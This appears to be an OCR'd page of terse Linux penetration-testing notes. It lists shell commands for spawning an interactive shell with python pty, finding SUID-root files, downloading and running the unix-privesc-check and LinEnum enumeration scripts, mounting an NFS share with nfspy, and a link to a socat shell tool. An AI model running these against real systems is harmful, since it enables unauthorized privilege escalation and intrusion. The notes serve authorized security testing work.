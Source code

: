 Screen Resolution

xrandr

xrandr -s HHHHxWWW


dpkg-reconfigure tzdata


apt-get install xdotool


python -c 'import pty;pty.spawn("/bin/bash")'

stty -echo

dpkg --get-selections | grep deinstall


find / -user root -perm -4000 -print > 4000.txt

curl -O http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
tar xzfv unix-privesc-check-1.4.tar.gz
cd unix-privesc-check-1.4
chmod +x unix-privesc-check
./unix-privesc-check detailed > out.txt
grep WARNING out.txt

curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh



nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt
fusermount -u /mnt


https://github.com/cornerpirate/socat-shell
